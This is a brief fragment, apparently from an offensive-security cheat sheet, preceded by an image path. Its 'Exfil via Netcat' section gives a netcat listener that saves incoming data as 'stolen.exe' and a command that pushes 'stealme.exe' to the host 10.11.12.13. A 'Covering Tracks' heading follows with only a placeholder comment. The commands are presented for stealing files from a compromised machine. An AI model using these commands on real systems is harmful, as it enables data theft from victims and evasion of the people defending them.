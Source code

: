 Exfil via Netcat.
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

### Covering Tracks
```bash
# techniques go here :)
```
